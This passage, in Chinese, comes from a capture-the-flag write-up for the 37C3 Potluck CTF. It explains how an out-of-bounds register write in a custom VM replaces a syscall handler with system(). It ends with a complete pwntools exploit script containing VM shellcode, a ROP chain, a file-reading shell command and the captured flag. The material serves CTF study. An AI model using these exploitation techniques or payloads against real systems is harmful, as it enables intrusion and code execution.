挑战二进制文件也**不是位置无关可执行文件（\*\***PIE**\*\*）**，它是静态构建的。二进制文件中存在`system`函数来处理运行时间命令。因此，利用代码硬编码了`system`的地址。

大多数指令不检查寄存器索引，但由于 read 函数中字符`0xd`的限制，编码 R13 寄存器会导致禁止的字节：

```plain
uint64_t regs[8];
    uint64_t sp; // OOB index 8  (0x8)
    uint64_t lr; // OOB index 9  (0x9)
    uint64_t pc; // OOB index 10 (0xa)
    uint64_t fl; // OOB index 11 (0xb)
    void * mem;  // OOB index 12 (0xc)
    void (*handle_syscall)(struct vm*, int syscall_id); // OOB index 13 (R13) (0xd)
```

幸运的是，`mov`指令使用 4 个最高有效位来选择目标寄存器，因此编码 mov 会导致有效的字节`0x07 0xd0 0x00 0x00`。

```plain
case 7:
        /* ... */
        vm->regs[arg1 >> 4] = vm->regs[arg3];
```

(`/tmp/x_master`).

`handle_syscall`的处理程序被替换后，第一个参数是指向 vm 结构的指针。结构的第一个字段是 VM 的寄存器，因此利用代码可以控制寄存器，在内存中创建一个将被作为系统命令执行的字符串。

由于在`run.sh`脚本中关闭了 stdout 和 stderr，flag 不能直接打印出来。

为了将 flag 发送到*Kitchen*，系统命令将写入重定向到 FIFO 文件（`/tmp/x_master`）。

### 步骤 5

在 Kitchen 中，ROP 链通过在函数中间调用继续进行，从 FIFO 接收数据并将其打印到*stdout*。

> **注意**：完整的有效载荷利用了两个 VM 加上挑战可执行文件，捆绑在一个`0xff`字节的消息中。

## 八、37c3 结论与推断

完整的利用脚本如下所示，它帮助我们在 37C3 Potluck CTF 中获得了 flag 和第一个血腥挑战。

感谢 blasty 带来了这个酷炫的挑战，以及 ZetaTwo 举办的 CTF！

## 九、攻击 Poc 源代码

```plain
from pwn import *

r = remote('challenge27.play.potluckctf.com', 31337)

# Secret challenge
r.recvuntil(b'stew:\n\n')
secret = bytes.fromhex(r.recvline().strip().decode())
code = xor(secret, p32(0xc0cac01a) + p32(0xd15ea5e) + p32(0x5caff01d) + p32(0xba5eba11)).hex().encode()
r.sendline(code)

# Select vulnerable command 2
r.recvuntil(b'choice> ')
r.sendline(b'2')
r.recvline()

# Gadgets
pop_lr_r5_r4_r2_r1_r0 = 0x164
send_command_gadget = 0x5b0
recv_and_print = 0x714
stack_in_kitchen = 0xfdb8
stack_in_gordon = 0xef7c
system_api_chall = 0x4033A2

# Payload
payload = p32(0xc0cac01a) # command magic
# Gordon shellcode
'''
syscall instruction -> handle_syscall(vm) -> system(vm) -> system(&vm->regs[0])
r0/r1/r2 -> "cat /fla* > /tmp/x_master\x00"
'''
payload += b'\x09\x05\x00\x00' # pop r5 -- @system
payload += b'\x07\xd0\x05\x00' # mov R13, R5 -- write to handle_syscall
payload += b'\x09\x00\x00\x00' # pop r0 -- cat /flag...
payload += b'\x09\x01\x00\x00' # pop r1
payload += b'\x09\x02\x00\x00' # pop r2
payload += b'\x09\x03\x00\x00' # pop r3
payload += b'\x05\x07\x00\x00' # syscall 7

assert len(payload) <= 0x40
payload += b'X' * (0x40 - len(payload))
# Kitchen ROP chain
payload += p64(pop_lr_r5_r4_r2_r1_r0)
payload += p64(send_command) # lr
payload += p64(0) # r5
payload += p64(0) # r4
payload += p64(0) # r2
payload += p64(0x100) # r1
payload += p64(stack_in_kitchen) # r0
payload += p64(recv_and_print) # recv + print
payload += b'X' * (0x80 - len(payload))
# Gordon ret2shellcode
payload += p64(stack_in_gordon)
# Gordon shellcode pop
payload += p64(system_api_chall) # @system
payload += b'cat /fla* > /tmp/x_master\x00' # cmd

assert not b"\x0a" in payload
assert not b"\x0d" in payload
payload += b'\n'

r.send(payload)

r.interactive()
# potluck{3y3_4m_n0t_th3_0n3_t0_s0Rt_0f_s1T_4nD_cRY_0v3R_sP1Lt_m1LK!1!!}
```
